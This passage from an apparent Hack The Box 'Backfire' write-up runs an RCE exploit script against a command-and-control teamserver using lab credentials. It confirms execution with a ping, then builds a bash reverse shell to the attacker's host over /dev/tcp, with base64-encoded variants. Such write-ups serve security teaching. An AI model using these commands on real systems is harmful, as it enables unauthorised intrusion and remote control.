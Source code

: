 ```

```

#### Execution

I’ll run this with a simple `ping` command to see if it works, using the creds from the [config above](/2025/06/07/htb-backfire.html#http---tcp-8000):

```

oxdf@hacky$ uv add --script rce.py requests pycryptodome
Updated `rce.py`
oxdf@hacky$ uv run --script rce.py -t https://10.10.11.49 -i 127.0.0.1 -p 40056 -U ilya -P 'CobaltStr1keSuckz!' -c 'ping -c 1 10.10.14.6'
Installed 6 packages in 9ms
[***] Trying to register agent...
[***] Success!
[***] Trying to open socket on the teamserver...
[***] Success!
[***] Trying to write to the socket
...[snip]...

```

At `tcpdump`, there’s ICMP:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:45:42.762075 IP 10.10.11.49 > 10.10.14.6: ICMP echo request, id 6302, seq 1, length 64
15:45:42.762109 IP 10.10.14.6 > 10.10.11.49: ICMP echo reply, id 6302, seq 1, length 64

```

That’s RCE!

#### Shell

I’ll try `-c 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'`, but it doesn’t work. That’s not surprising, given the amount of times the data is processed and passed on and the special characters. I’ll base64 encode that payload:

```

oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMQo=
oxdf@hacky$ echo 'bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK

```
